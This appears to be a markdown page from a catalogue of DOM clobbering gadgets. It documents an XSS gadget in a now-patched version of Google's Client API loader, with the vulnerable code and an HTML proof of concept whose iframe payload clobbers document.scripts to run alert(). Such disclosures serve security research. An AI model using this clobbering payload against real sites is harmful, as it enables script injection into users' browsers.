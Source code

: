 ## Google Client API

### Meta

+ Library: Google Client API
+ Starts: N/A
+ Version: 5BIk7BglYEE
+ Payload: ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk


### Library

URL: 
+ `https://apis.google.com/js/api.js`
+ `https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs`


### Vulnerable Code Snippet

```javascript
var e = document.scripts || document.getElementsByTagName("script") || [];
        d = [];
        var f = [];
        f.push.apply(f, zf("us"));
        for (var h = 0; h < e.length; ++h)
            for (var k = e[h], l = 0; l < f.length; ++l)
                k.src && 0 == k.src.indexOf(f[l]) && d.push(k);
        0 == d.length && 0 < e.length && e[e.length - 1].src && d.push(e[e.length - 1]);
        for (e = 0; e < d.length; ++e)
            d[e].getAttribute("gapi_processed") || (d[e].setAttribute("gapi_processed", !0),
            (f = d[e]) ? (h = f.nodeType,
            f = 3 == h || 4 == h ? f.nodeValue : f.textContent || "") : f = void 0,
            (f = Df(f)) && b.push(f));
        a && Ef(c, a);
```
```javascript
Df = function(a) {
    if (a && !/^\s+$/.test(a)) {
        for (; 0 == a.charCodeAt(a.length - 1); )
            a = a.substring(0, a.length - 1);
        try {
            var b = window.JSON.parse(a)
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return (" + a + "\n)"))()
        } catch (c) {}
        if ("object" === typeof b)
            return b;
        try {
            b = (new Function("return ({" + a + "\n})"))()
        } catch (c) {}
        return "object" === typeof b ? b : {}
    }
}
```

## PoC

Please note that this gadget has been patched by Google through the release of a newer version: [link](https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs). Therefore, initializing `https://apis.google.com/js/api.js` will load the updated script. To demonstrate the DOM clobbering gadgets, we manually load the vulnerable version here.

```
Patched Verison
https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.6jI6mC1Equ4.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAQ/rs=AHpOoo-79kMK-M6Si-J0E_6fI_9RBHBrwQ/cb=gapi.loaded_0?le=scs
```

### PoC #1
```html

<!DOCTYPE html>
<html>
<head>
  <title>Google API Client Example</title>
  <script>
    // Load the Google API client library
    function loadGapi() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/js/api.js';
      script.onload = () => initGapi();
      document.body.appendChild(script);
    }

    // Initialize the Google API client library
    function initGapi() {
      gapi.load('client', initClient);
    }

    // Set up the API client and make a request
    function initClient() {}

    // Load the additional script
    function loadAdditionalScript() {
      const script = document.createElement('script');
      script.src = 'https://apis.google.com/_/scs/abc-static/_/js/k=gapi.lb.en.5BIk7BglYEE.O/m=client/rt=j/sv=1/d=1/ed=1/am=AAAC/rs=AHpOoo9V8V9Op_7rn4BCy9pIOBNUyU2IjA/cb=gapi.loaded_0?le=scs';
      document.body.appendChild(script);
    }

    // Initialize the loading process
    function initialize() {
      loadGapi();
      loadAdditionalScript();
    }
  </script>
</head>
<body onload="initialize()">
  <h1>Google Sheets API Client Example</h1>
  // PAYLOAD
  <iframe name="scripts" src="https://apis.google.com/js/api.js">alert("GG!")</iframe>
  <iframe name="scripts" src="https://apis.google.com/js/api.js">alert("GG!")</iframe>
</body>
</html>
```
